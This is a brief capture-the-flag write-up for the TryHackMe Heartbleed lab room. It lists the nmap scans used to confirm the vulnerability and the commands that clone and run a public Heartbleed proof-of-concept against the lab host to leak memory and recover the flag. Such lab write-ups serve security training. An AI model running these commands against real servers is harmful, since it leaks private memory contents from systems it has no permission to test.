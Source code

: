 # HeartBleed

**Room Link:** [https://tryhackme.com/room/heartbleed](https://tryhackme.com/room/heartbleed)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/443 - HTTPS

We can see the site is vulnerable to heartbleed

**Kali**

```
nmap -p 443 --script ssl-heartbleed $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I had to run the exploit a couple times but eventually I found some interesting info. Most importantly the flag.

**Kali**

```
git clone https://github.com/mpgn/heartbleed-PoC.git
cd heartbleed-PoC/
python2.7 heartbleed-exploit.py 34.240.174.225
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>











